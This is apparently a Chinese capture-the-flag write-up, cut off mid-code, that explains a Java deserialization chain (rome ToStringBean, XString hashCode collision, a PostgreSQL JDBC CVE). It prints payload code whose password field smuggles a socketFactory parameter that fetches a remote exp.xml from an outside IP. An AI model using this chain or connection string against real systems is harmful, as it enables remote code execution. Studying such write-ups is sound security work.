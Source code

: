 ```xml
        </plugins>
    </build>

</project>
```

IndexController

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211271957830.png)

Database

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211271957963.png)

JdbcUtils

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211271957966.png)

SecurityObjectInpitStream

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211271958986.png)

过滤了 mysql jdbc 反序列化, 网上查了一会发现最近 postgresql 依赖的 cve

[https://xz.aliyun.com/t/11812](https://xz.aliyun.com/t/11812)

[https://mp.weixin.qq.com/s?__biz=MzUzNDMyNjI3Mg==&mid=2247485275&idx=1&sn=e06b07579ecef87f8cce4536d25789ce](https://mp.weixin.qq.com/s?__biz=MzUzNDMyNjI3Mg==&mid=2247485275&idx=1&sn=e06b07579ecef87f8cce4536d25789ce)

结合 pom.xml 中的 rome, 通过 ToStringBean 来触发任意 getter

在题目中是利用 Database getConnection 这个 getter 来触发 jdbc 漏洞

之后从 marshalsec 的源码中找到 XString, 它的 equals 方法会调用 toString, 最终结合 hashCode 碰撞完成整条反序列化链

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211272004771.png)

payload

```java
package com.example.ezjaba;

import com.example.Reflection;
import com.example.ezjaba.Connection.Database;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.org.apache.xpath.internal.objects.XString;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.*;

public class RomeDemo {

    public static void main(String[] args) throws Exception{
        Database database = new Database();
        database.setDatabase("postgresql");
        database.setHots("127.0.0.1");
        database.setUsername("test");
        
        database.setPassword("=123456&socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://1.117.70.230:65001/exp.xml");
        ToStringBean toStringBean = new ToStringBean(String.class, "123");
        XString xString = new XString("456");

        Map map1 = new HashMap();
        Map map2 = new HashMap();
        map1.put("yy",toStringBean);
```